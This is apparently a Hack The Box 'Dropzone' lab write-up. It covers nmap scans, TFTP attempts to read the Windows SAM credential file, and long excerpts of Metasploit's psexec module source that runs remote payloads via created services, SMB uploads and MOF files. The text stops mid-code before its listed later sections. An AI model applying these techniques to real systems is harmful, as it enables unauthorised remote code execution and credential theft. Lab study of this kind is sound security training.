





#### Dropzone

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [TFTP Enumeration](#tftp-enumeration)
- [Target powershell of psexec](#target-powershell-of-psexec)
- [Target MOF of psexec](#target-mof-of-psexec)
- [Get flag using ADS](#get-flag-using-ads)

###### Attacker Info

```sh
root@kali:~/dropzone# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:b0:a9:19 brd ff:ff:ff:ff:ff:ff
    inet 10.0.0.81/24 brd 10.0.0.255 scope global dynamic noprefixroute eth0
       valid_lft 604592sec preferred_lft 604592sec
    inet6 2601:5cc:c900:4024::3654/128 scope global dynamic noprefixroute
       valid_lft 604594sec preferred_lft 604594sec
    inet6 2601:5cc:c900:4024:b509:a069:73ef:d7cc/64 scope global temporary dynamic
       valid_lft 319683sec preferred_lft 85709sec
    inet6 2601:5cc:c900:4024:20c:29ff:feb0:a919/64 scope global dynamic mngtmpaddr noprefixroute
       valid_lft 319683sec preferred_lft 319683sec
    inet6 fe80::20c:29ff:feb0:a919/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    link/none
    inet 10.10.14.8/23 brd 10.10.15.255 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::1006/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::e991:b740:92b8:7eac/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
root@kali:~/dropzone#
```

###### Nmap Scan

```sh
root@kali:~/dropzone# nmap -sC -sV -oA dropzone.nmap 10.10.10.90
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-06 19:27 EST
Nmap scan report for 10.10.10.90
Host is up (0.17s latency).
All 1000 scanned ports on 10.10.10.90 are filtered

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 174.51 seconds
root@kali:~/dropzone#
```

```sh
root@kali:~/dropzone# nmap -sU -oA dropzone-udp.nmap 10.10.10.90
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-06 19:58 EST
Nmap scan report for 10.10.10.90
Host is up (0.19s latency).
Not shown: 999 open|filtered ports
PORT   STATE SERVICE
69/udp open  tftp

Nmap done: 1 IP address (1 host up) scanned in 149.50 seconds
root@kali:~/dropzone#
```

```sh
root@kali:~/dropzone# nmap -sU -sV -oA dropzone-udp.nmap 10.10.10.90 -p 69
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-08 05:39 EST
Nmap scan report for 10.10.10.90
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
69/udp open  tftp    SolarWinds Free tftpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.69 seconds
root@kali:~/dropzone#
```

###### TFTP Enumeration

```sh
root@kali:~/dropzone# tftp 10.10.10.90
tftp> get test.txt
Error code 1: Could not find file 'C:\test.txt'.
tftp> get /windows
Error code 1: Access to the path 'C:\windows' is denied.
tftp> get /windows/system32/config/sam
Error code 1: The process cannot access the file 'C:\windows\system32\config\sam' because it is being used by another process.
tftp> get /users
Error code 1: Could not find file 'C:\users'.
tftp> get /DOCUME~1
Error code 1: Access to the path 'C:\Documents and Settings' is denied.
tftp> get /Progra-1
Error code 1: Could not find file 'C:\Progra-1'.
tftp> get /Progra~1
Error code 1: Access to the path 'C:\Program Files' is denied.
tftp> get /Progra~2
Error code 1: Could not find file 'C:\Progra~2'.
tftp> 
root@kali:~/dropzone#
```

###### Target powershell of psexec

```sh
root@kali:~/dropzone# locate psexec | grep metasploit
/usr/share/doc/metasploit-framework/modules/exploit/windows/smb/ms17_010_psexec.md
/usr/share/doc/metasploit-framework/modules/exploit/windows/smb/psexec.md
/usr/share/metasploit-framework/lib/msf/core/exploit/smb/client/psexec.rb
/usr/share/metasploit-framework/lib/msf/core/exploit/smb/client/psexec_ms17_010.rb
/usr/share/metasploit-framework/modules/auxiliary/admin/smb/psexec_command.rb
/usr/share/metasploit-framework/modules/auxiliary/admin/smb/psexec_ntdsgrab.rb
/usr/share/metasploit-framework/modules/auxiliary/scanner/smb/psexec_loggedin_users.rb
/usr/share/metasploit-framework/modules/exploits/windows/local/current_user_psexec.rb
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_psexec.rb
/usr/share/metasploit-framework/modules/exploits/windows/smb/psexec.rb
/usr/share/metasploit-framework/modules/exploits/windows/smb/psexec_psh.rb
/usr/share/metasploit-framework/tools/exploit/psexec.rb
root@kali:~/dropzone#
```

```sh
root@kali:~/dropzone# nano /usr/share/metasploit-framework/modules/exploits/windows/smb/psexec.rb
```



```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

# Windows XP systems that are not part of a domain default to treating all
# network logons as if they were Guest. This prevents SMB relay attacks from
# gaining administrative access to these systems. This setting can be found
# under:
#
#  Local Security Settings >
#   Local Policies >
#    Security Options >
#     Network Access: Sharing and security model for local accounts

class MetasploitModule < Msf::Exploit::Remote
  Rank = ManualRanking

  include Msf::Exploit::Remote::SMB::Client::Psexec
  include Msf::Exploit::Powershell
  include Msf::Exploit::EXE
  include Msf::Exploit::WbemExec
  include Msf::Auxiliary::Report

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Microsoft Windows Authenticated User Code Execution',
      'Description'    => %q{
          This module uses a valid administrator username and password (or
        password hash) to execute an arbitrary payload. This module is similar
        to the "psexec" utility provided by SysInternals. This module is now able
        to clean up after itself. The service created by this tool uses a randomly
        chosen name and description.
      },
      'Author'         =>
        [
          'hdm',
          'Royce Davis <rdavis[at]accuvant.com>', # (@R3dy__) PSExec command module
          'RageLtMan <rageltman[at]sempervictus>' # PSH exploit, libs, encoders
        ],
      'License'        => MSF_LICENSE,
      'Privileged'     => true,
      'DefaultOptions' =>
        {
          'WfsDelay'     => 10,
          'EXITFUNC' => 'thread'
        },
      'References'     =>
        [
          [ 'CVE', '1999-0504'], # Administrator with no password (since this is the default)
          [ 'OSVDB', '3106'],
          [ 'URL', 'http://technet.microsoft.com/en-us/sysinternals/bb897553.aspx' ],
          [ 'URL', 'https://www.optiv.com/blog/owning-computers-without-shell-access' ],
          [ 'URL', 'http://sourceforge.net/projects/smbexec/' ]
        ],
      'Payload'        =>
        {
          'Space'        => 3072,
          'DisableNops'  => true
        },
      'Platform'       => 'win',
      'Arch'           => [ARCH_X86, ARCH_X64],
      'Targets'        =>
        [
          [ 'Automatic', { } ],
          [ 'PowerShell', { } ],
          [ 'Native upload', { } ],
          [ 'MOF upload', { } ]
        ],
      'DefaultTarget'  => 0,
      # For the CVE, PsExec was first released around February or March 2001
      'DisclosureDate' => 'Jan 01 1999'
    ))

    register_options(
      [
        OptString.new('SHARE',     [ true, "The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share", 'ADMIN$' ])
      ])

    register_advanced_options(
      [
        OptBool.new('ALLOW_GUEST', [true, "Keep trying if only given guest access", false]),
        OptString.new('SERVICE_FILENAME', [false, "Filename to to be used on target for the service binary",nil]),
        OptString.new('PSH_PATH', [false, 'Path to powershell.exe', 'Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe']),
        OptString.new('SERVICE_STUB_ENCODER', [false, "Encoder to use around the service registering stub",nil])
      ])
  end

  def exploit
    print_status("Connecting to the server...")
    connect()

    print_status("Authenticating to #{smbhost} as user '#{splitname(datastore['SMBUser'])}'...")
    smb_login()

    if not simple.client.auth_user and not datastore['ALLOW_GUEST']
      print_line(" ")
      print_error(
        "FAILED! The remote host has only provided us with Guest privileges. " +
        "Please make sure that the correct username and password have been provided. " +
        "Windows XP systems that are not part of a domain will only provide Guest privileges " +
        "to network logins by default."
      )
      print_line(" ")
      disconnect
      return
    end

    if datastore['SMBUser'].to_s.strip.length > 0
      report_auth
    end

    case target.name
    when 'Automatic'
      if powershell_installed?(datastore['SHARE'], datastore['PSH_PATH'])
        print_status('Selecting PowerShell target')
        execute_powershell_payload
      else
        print_status('Selecting native target')
        native_upload(datastore['SHARE'])
      end
    when 'PowerShell'
      execute_powershell_payload
    when 'Native upload'
      native_upload(datastore['SHARE'])
    when 'MOF upload'
      mof_upload(datastore['SHARE'])
    end

    handler
    disconnect
  end

  def report_auth
    service_data = {
        address: ::Rex::Socket.getaddress(datastore['RHOST'],true),
        port: datastore['RPORT'],
        service_name: 'smb',
        protocol: 'tcp',
        workspace_id: myworkspace_id
    }

    credential_data = {
        origin_type: :service,
        module_fullname: self.fullname,
        private_data: datastore['SMBPass'],
        username: datastore['SMBUser'].downcase
    }

    if datastore['SMBDomain'] and datastore['SMBDomain'] != 'WORKGROUP'
      credential_data.merge!({
        realm_key: Metasploit::Model::Realm::Key::ACTIVE_DIRECTORY_DOMAIN,
        realm_value: datastore['SMBDomain']
       })
    end

    if datastore['SMBPass'] =~ /[0-9a-fA-F]{32}:[0-9a-fA-F]{32}/
      credential_data.merge!({:private_type => :ntlm_hash})
    else
      credential_data.merge!({:private_type => :password})
    end

    credential_data.merge!(service_data)

    credential_core = create_credential(credential_data)

    login_data = {
        access_level: 'Admin',
        core: credential_core,
        last_attempted_at: DateTime.now,
        status: Metasploit::Model::Login::Status::SUCCESSFUL
    }

    login_data.merge!(service_data)
    create_credential_login(login_data)
  end
end
```

```
Target -> PowerShell
execute_powershell_payload
```

```sh
root@kali:~/dropzone# locate psexec | grep metasploit | xargs grep execute_powershell_payload
/usr/share/metasploit-framework/lib/msf/core/exploit/smb/client/psexec.rb:  def execute_powershell_payload
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_psexec.rb:        execute_powershell_payload
/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17_010_psexec.rb:      execute_powershell_payload
/usr/share/metasploit-framework/modules/exploits/windows/smb/psexec.rb:        execute_powershell_payload
/usr/share/metasploit-framework/modules/exploits/windows/smb/psexec.rb:      execute_powershell_payload
root@kali:~/dropzone#
```

```sh
root@kali:~/dropzone# nano /usr/share/metasploit-framework/lib/msf/core/exploit/smb/client/psexec.rb
```



```ruby
# -*- coding: binary -*-
require 'rex/proto/dcerpc/svcctl'
require 'windows_error'
require 'windows_error/win32'
require 'msf/core/exploit/exe'
require 'msf/core/exploit/wbemexec'

include WindowsError::Win32

module Msf

####
# Allows for reuse of the psexec code execution technique
#
# This code was stolen straight out of the psexec module. Thanks very
# much for all who contributed to that module!! Instead of uploading
# and running a binary.
####

module Exploit::Remote::SMB::Client::Psexec

  include Msf::Exploit::Windows_Constants
  include Msf::Exploit::Remote::DCERPC
  include Msf::Exploit::Remote::SMB::Client::Authenticated
  include Msf::Exploit::Failure

  def initialize(info = {})
    super
    register_options(
      [
        OptString.new('SERVICE_NAME', [ false, 'The service name', nil]),
        OptString.new('SERVICE_DISPLAY_NAME', [ false, 'The service display name', nil]),
        OptString.new('SERVICE_DESCRIPTION', [false, "Service description to to be used on target for pretty listing",nil])
      ], self.class)

    register_advanced_options(
      [
        OptBool.new('SERVICE_PERSIST', [ true, 'Create an Auto run service and do not remove it.', false])
      ], self.class)
  end

  # Retrieve the SERVICE_NAME option, generate a random
  # one if not already set.
  #
  # @return [String] service_name the name of the service.
  def service_name
    @service_name ||= datastore['SERVICE_NAME']
    @service_name ||= Rex::Text.rand_text_alpha(8)
  end

  # Retrieve the SERVICE_DISPLAY_NAME option, generate a random
  # one if not already set.
  #
  # @return [String] the display name of the service.
  def display_name
    @display_name ||= datastore['SERVICE_DISPLAY_NAME']
    @display_name ||= Rex::Text.rand_text_alpha(16)
  end

  # Retrieve the SERVICE_DESCRIPTION option
  #
  # @return [String] the service description.
  def service_description
    @service_description ||= datastore['SERVICE_DESCRIPTION']
  end

  # Retrives output from the executed command
  #
  # @param smbshare [String] The SMBshare to connect to.  Usually C$
  # @param host [String] Remote host to connect to, as an IP address or
  #   hostname
  # @param file [String] Path to the output file relative to the smbshare
  #   Example: '\WINDOWS\Temp\outputfile.txt'
  # @return [String,nil] output or nil on failure
  def smb_read_file(smbshare, host, file)
    begin
      simple.connect("\\\\#{host}\\#{smbshare}")
      file = simple.open(file, 'o')
      contents = file.read
      file.close
      simple.disconnect("\\\\#{host}\\#{smbshare}")
      return contents
    rescue Rex::Proto::SMB::Exceptions::ErrorCode => e
      print_error("Unable to read file #{file}. #{e.class}: #{e}.")
      return nil
    end
  end

  # Executes a single windows command.
  #
  # If you want to retrieve the output of your command you'll have to
  # echo it to a .txt file and then use the {#smb_read_file} method to
  # retrieve it.  Make sure to remove the files manually or use
  # {Exploit::FileDropper#register_files_for_cleanup} to have the
  # {Exploit::FileDropper#cleanup} and
  # {Exploit::FileDropper#on_new_session} handlers do it for you.
  #
  # @param command [String] Should be a valid windows command
  # @param disconnect [Boolean] Disconnect afterwards
  # @return [Boolean] Whether everything went well
  def psexec(command, disconnect=true)
    simple.connect("\\\\#{datastore['RHOST']}\\IPC$")
    handle = dcerpc_handle('367abb81-9844-35f1-ad32-98f038001003', '2.0', 'ncacn_np', ["\\svcctl"])
    vprint_status("Binding to #{handle} ...")
    dcerpc_bind(handle)
    vprint_status("Bound to #{handle} ...")
    vprint_status("Obtaining a service manager handle...")

    svc_client = Rex::Proto::DCERPC::SVCCTL::Client.new(dcerpc)
    scm_handle, scm_status = svc_client.openscmanagerw(datastore['RHOST'])

    if scm_status == ERROR_ACCESS_DENIED
      print_error("ERROR_ACCESS_DENIED opening the Service Manager")
    end

    return false unless scm_handle

    if datastore['SERVICE_PERSIST']
      opts = { :start => SERVICE_AUTO_START }
    else
      opts = {}
    end

    vprint_status("Creating the service...")
    svc_handle, svc_status = svc_client.createservicew(scm_handle, service_name, display_name, command, opts)

    case svc_status
    when ERROR_SUCCESS
      vprint_good("Successfully created the service")
    when ERROR_SERVICE_EXISTS
      service_exists = true
      print_warning("Service already exists, opening a handle...")
      svc_handle = svc_client.openservicew(scm_handle, service_name)
    when ERROR_ACCESS_DENIED
      print_error("Unable to create service, ACCESS_DENIED, did AV gobble your binary?")
      return false
    else
      print_error("Failed to create service, ERROR_CODE: #{svc_status}")
      return false
    end

    if svc_handle.nil?
      print_error("No service handle retrieved")
      return false
    else

      if service_description
        vprint_status("Changing service description...")
        svc_client.changeservicedescription(svc_handle, service_description)
      end

      vprint_status("Starting the service...")
      begin
        svc_status = svc_client.startservice(svc_handle)
        case svc_status
        when ERROR_SUCCESS
          print_good("Service started successfully...")
        when ERROR_FILE_NOT_FOUND
          print_error("Service failed to start - FILE_NOT_FOUND")
        when ERROR_ACCESS_DENIED
          print_error("Service failed to start - ACCESS_DENIED")
        when ERROR_SERVICE_REQUEST_TIMEOUT
          print_good("Service start timed out, OK if running a command or non-service executable...")
        else
          print_error("Service failed to start, ERROR_CODE: #{svc_status}")
        end
      ensure
        begin
          # If service already exists don't delete it!
          # Maybe we could have a force cleanup option..?
          if service_exists
            print_warning("Not removing service as it already existed...")
          elsif datastore['SERVICE_PERSIST']
            print_warning("Not removing service for persistence...")
          else
            vprint_status("Removing the service...")
            svc_status = svc_client.deleteservice(svc_handle)
            if svc_status == ERROR_SUCCESS
              vprint_good("Successfully removed the service")
            else
              print_error("Unable to remove the service, ERROR_CODE: #{svc_status}")
            end
          end
        ensure
          vprint_status("Closing service handle...")
          svc_client.closehandle(svc_handle)
        end
      end
    end

    if disconnect
      sleep(1)
      simple.disconnect("\\\\#{datastore['RHOST']}\\IPC$")
    end

    true
  end

  def powershell_installed?(smb_share, psh_path)
    share = "\\\\#{datastore['RHOST']}\\#{smb_share}"

    case smb_share.upcase
    when 'ADMIN$'
      path = 'System32\\WindowsPowerShell\\v1.0\\powershell.exe'
    when 'C$'
      path = 'Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe'
    else
      path = psh_path
    end

    simple.connect(share)
    vprint_status("Checking for #{path}")
    if smb_file_exist?(path)
      vprint_status('PowerShell found')
      psh = true
    else
      vprint_status('PowerShell not found')
      psh = false
    end

    simple.disconnect(share)
    psh
  end

  def execute_command(text, bat, cmd)
    # Try and execute the provided command
    execute = "%COMSPEC% /C echo #{cmd} ^> %SYSTEMDRIVE%#{text} > #{bat} & %COMSPEC% /C start %COMSPEC% /C #{bat}"
    vprint_status("Executing the command...")
    begin
      return psexec(execute)
    rescue Rex::Proto::DCERPC::Exceptions::Error, Rex::Proto::SMB::Exceptions::Error => e
      elog("#{e.class} #{e.message}\n#{e.backtrace * "\n"}", 'rex', LEV_3)
      print_error("Unable to execute specified command: #{e}")
      return false
    end
  end

  def execute_command_with_output(text, bat, cmd, smb_share, r_ip, delay, rt)
    res = execute_command(text, bat, cmd)
       if res
         for i in 0..(rt)
           Rex.sleep(delay)
           # if the output file is still locked then the program is still likely running
           if (exclusive_access(text, smb_share, r_ip))
             break
           elsif (i == rt)
             print_error("Command seems to still be executing. Try increasing RETRY and DELAY")
           end
         end
         output = get_output(text, smb_share, r_ip)
       end

    cleanup_after(bat, smb_share, r_ip)
    output
  end

  def execute_powershell_payload
    ENV['MSF_SERVICENAME'] = datastore['SERVICE_NAME']
    command = cmd_psh_payload(payload.encoded, payload_instance.arch.first)

    if datastore['PSH::persist'] and not datastore['DisablePayloadHandler']
      print_warning("You probably want to DisablePayloadHandler and use exploit/multi/handler with the PSH::persist option")
    end

    # Execute the powershell command
    print_status("Executing the payload...")
    begin
      psexec(command)
    rescue StandardError => exec_command_error
      fail_with(Failure::Unknown, "#{peer} - Unable to execute specified command: #{exec_command_error}")
    end
  end

  def native_upload(smb_share)
    filename = "#{rand_text_alpha(8)}.exe"
    serviceencoder = ''

    # Upload the shellcode to a file
    print_status("Uploading payload...")
    smbshare = smb_share
    fileprefix = ""
    # if SHARE = Users/sasha/ or something like this
    if smbshare =~ /.[\\\/]/
      subfolder = true
      smbshare = smb_share.dup
      smbshare = smbshare.gsub(/^[\\\/]/,"")
      folder_list = smbshare.split(/[\\\/]/)
      smbshare = folder_list[0]
      fileprefix = folder_list[1..-1].map {|a| a + "\\"}.join.gsub(/\\$/,"") if folder_list.length > 1
      simple.connect("\\\\#{datastore['RHOST']}\\#{smbshare}")
      fd = smb_open("\\#{fileprefix}\\#{filename}", 'rwct')
    else
      subfolder = false
      simple.connect("\\\\#{datastore['RHOST']}\\#{smbshare}")
      fd = smb_open("\\#{filename}", 'rwct')
    end
    exe = ''
    opts = { :servicename => service_name, :serviceencoder => serviceencoder}
    begin
      exe = generate_payload_exe_service(opts)

      fd << exe
    ensure
      fd.close
    end

    if subfolder
      print_status("Created \\#{fileprefix}\\#{filename}...")
    else
      print_status("Created \\#{filename}...")
    end

    # Disconnect from the share
    simple.disconnect("\\\\#{datastore['RHOST']}\\#{smbshare}")

    # define the file location
    if smb_share == 'ADMIN$'
      file_location = "%SYSTEMROOT%\\#{filename}"
    elsif smb_share =~ /^[a-zA-Z]\$$/
      file_location = smb_share.slice(0,1) +  ":\\#{filename}"
    else
      file_location = "\\\\127.0.0.1\\#{smbshare}\\#{fileprefix}\\#{filename}"
    end

    psexec(file_location, false)

    unless datastore['SERVICE_PERSIST']
      print_status("Deleting \\#{filename}...")
      #This is not really useful but will prevent double \\ on the wire :)
      if smb_share =~ /.[\\\/]/
        simple.connect("\\\\#{datastore['RHOST']}\\#{smbshare}")
        begin
          simple.delete("\\#{fileprefix}\\#{filename}")
        rescue XCEPT::ErrorCode => e
          print_error("Delete of \\#{fileprefix}\\#{filename} failed: #{e.message}")
        end
      else
        simple.connect("\\\\#{datastore['RHOST']}\\#{smbshare}")
        begin
          simple.delete("\\#{filename}")
        rescue XCEPT::ErrorCode => e
          print_error("Delete of \\#{filename} failed: #{e.message}")
        end
      end
    end
  end

  def mof_upload(smb_share)
    share = "\\\\#{datastore['RHOST']}\\ADMIN$"
    filename = "#{rand_text_alpha(8)}.exe"

    # payload as exe
    print_status("Trying wbemexec...")
    print_status("Uploading Payload...")
    if smb_share != 'ADMIN$'
      print_error('Wbem will only work with ADMIN$ share')
      return
    end
    simple.connect(share)
    exe = generate_payload_exe
    fd = smb_open("\\system32\\#{filename}", 'rwct')
    fd << exe
    fd.close
    print_status("Created %SystemRoot%\\system32\\#{filename}")

    # mof to cause execution of above
    mofname = rand_text_alphanumeric(14) + ".MOF"
    mof = generate_mof(mofname, filename)
    print_status("Uploading MOF...")
    fd = smb_open("\\system32\\wbem\\mof\\#{mofname}", 'rwct')
    fd << mof
    fd.close
    print_status("Created %SystemRoot%\\system32\\wbem\\mof\\#{mofname}")

    # Disconnect from the ADMIN$
    simple.disconnect(share)
  end

  private
  # Retrive output from command
  def get_output(file, smb_share, r_ip)
    print_status("Getting the command output...")
    output = smb_read_file(smb_share, r_ip, file)
    if output.nil?
      print_error("Error getting command output. #{$!.class}. #{$!}.")
      return
    end
    if output.empty?
      print_status("Command finished with no output")
      return
    end
    output
  end

  # check if our process is done using these files
  def exclusive_access(*files, smb_share, r_ip)
    begin
      simple.connect("\\\\#{r_ip}\\#{smb_share}")
    rescue Rex::Proto::SMB::Exceptions::ErrorCode => accesserror
      print_status("Unable to get handle: #{accesserror}")
